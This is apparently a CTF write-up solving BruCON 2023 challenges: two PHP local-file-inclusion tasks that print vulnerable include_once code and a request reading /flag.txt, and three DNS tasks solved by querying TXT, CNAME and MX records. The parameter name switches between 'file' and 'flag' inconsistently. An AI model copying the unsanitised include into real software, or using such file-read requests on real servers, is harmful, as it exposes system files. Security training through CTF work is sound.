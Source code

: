 ```yaml
---
layout: post
title: "BruCON 2023 CTF Web and DNS challenges"
author: cryptax
date: 2023-09-29
tags:
- Brucon
- CTF
- 2023
- Web
- DNS
---
```


This is a write-up for BruCON CTF Web and DNS challenges

## Web: Baby LFI

The description says: *"Local File Inclusions are so cool! Can you get the flag at /flag.txt?"* and leads to a web page which shows this piece of PHP code:

```php
<?php isset($_GET['file']) ? include_once($_GET['file']) : highlight_file('index.php') ?>
```

I tried http://URL/?file=flag.txt which returned several interesting warning messages.

```
Warning: include_once(flag.txt): Failed to open stream: No such file or directory in /var/www/html/index.php on line 1

Warning: include_once(): Failed opening 'flag.txt' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 1
```

They tell me that the file `flag.txt` is not found in the same directory as `index.php`. Actually, the description said to try `/flag.txt`, so that's what I tried http://URL/?flag=/flag.txt and got the flag `FLAG={Th4tW4s34444sy!}`. Yes, that was easy indeed.

## Web: Beginner LFI

Very similar to Baby LFI, this one says *"That last one was a bit too easy. Let's see if you can get past my filters! Can you get the flag at /flag.txt?"*

I probably did not understand what additional security there was, because the same request, http://URL/?flag=/flag.txt flagged: `FLAG={R3curs1v3Ch3cksAr3N33ded!}`


## DNS: Do Not Search 1

This DNS challenge says: *"Do Not Search for the answer in brucon-ctf1.be."*. 

I immediately thought something would be hidden in a DNS answer. I tried `dig brucon-ctf1.be` which did not provide any useful information. 

I searched for "dns CTF" and found this interesting [writeup](https://ctftime.org/writeup/8874). I tried the `txt` command and it revealed the flag:

```
 dig brucon-ctf1.be txt

; <<>> DiG 9.18.12-0ubuntu0.22.04.3-Ubuntu <<>> brucon-ctf1.be txt
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 47012
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 65494
;; QUESTION SECTION:
;brucon-ctf1.be.			IN	TXT

;; ANSWER SECTION:
brucon-ctf1.be.		1121	IN	TXT	"TORFLAG:602C0CC369C134E25861F335EC1F290E"
```

The flag is `TORFLAG:602C0CC369C134E25861F335EC1F290E`. The flag format wasn't fixed in this CTF.

## DNS: Do Not Search 3

Same, but you need to search for `brucon-ctf3.be`. Actually the same solution worked again: `dig brucon-ctf3.be txt` and revealed the flag: `TORFLAG.ECCBC87E4B5CE2FE28308FD9F2A7BAF3` (without trailing dot at the end).

```
;; ANSWER SECTION:
brucon-ctf3.be.		13774	IN	CNAME	TORFLAG.ECCBC87E4B5CE2FE28308FD9F2A7BAF3.
```

## DNS: Do Not Search 2

Find information on `brucon-ctf2.be`, but this time `txt` did not provide the flag. This information was in the TXT record:

```
;; ANSWER SECTION:
brucon-ctf2.be.		7168	IN	TXT	"v=spf1 a mx ip4:185.182.56.120 a:spf.spamexperts.axc.nl ~all"
```

As this was about spam and mail MX record, I tried the MX record:

```
dig brucon-ctf2.be mx
...
;; QUESTION SECTION:
;brucon-ctf2.be.			IN	MX

;; ANSWER SECTION:
brucon-ctf2.be.		4303	IN	MX	20 TORFLAG.BC3C1A70072998AFA42892CF9F880DB4.
brucon-ctf2.be.		4303	IN	MX	10 mail.brucon-ctf2.be.
```

The flag did not have the trailing dot: `TORFLAG.BC3C1A70072998AFA42892CF9F880DB4`.




